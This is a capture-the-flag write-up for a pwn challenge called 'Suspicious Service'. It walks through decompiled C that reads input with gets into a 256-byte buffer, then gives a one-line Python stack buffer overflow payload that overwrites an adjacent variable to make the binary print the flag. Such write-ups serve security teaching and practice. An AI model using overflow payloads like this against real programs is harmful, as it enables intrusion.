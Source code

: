```yaml
---
title: CDDC [Suspicious Service]
author: Jason Chua (Coldspot)
date: 2020-07-8 21:24:30 +0800
categories: [CTF, CDDC]
tags: [tech, pwn, bof]
toc: true
comments: true
---
```


On the initial connection, this binary does not prints out anything and just waits for an input. Luckily, the binary was compiled with debugging symbols. This will make reversing much simpler.

<!--more-->

# Decompilation
Looking at the main function, we could guess that FUN_000110a0 is a gets function. Our job is to overwrite the local variable "local_c" to 0x1343d00 to run the `cat flag` command.

```c
undefined4 main(void)

{
  undefined local_10c [256];
  int local_c;
  
  FUN_00011090(stdin,0);
  FUN_00011090(stdout,0);
  FUN_00011090(stderr,0);
  local_c = 0x12345678;
  FUN_000110a0(local_10c);
  if (local_c == 0x1343d00) {
    FUN_000110b0("cat flag");
  }
  return 0;
}
```

```
GETS(3)       Linux Programmer's Manual

NAME
        gets - get a string from standard input (DEPRECATED)

SYNOPSIS
        #include <stdio.h>

        char *gets(char *s);

DESCRIPTION
        Never use this function.

        gets() reads a line from stdin into the buffer pointed to by s until either a terminating newline or EOF, which it replaces with a null byte ('\0').  No check for buffer overrun is performed (see BUGS below).
```

# Exploit

Our plan of action is to overwrite `local_c` by overflowing the buffer allocated for `local_10c`


This simple one-liner will overflow the buffer for the local_10c and overwrite the local_c variable.


```bash
python -c "import struct; print('A' * 256 + struct.pack('<I', 0x1343d00))" | .⁄SuspiciousSvc
```


More info 
>> Ask me on Discord @Coldspot#7033
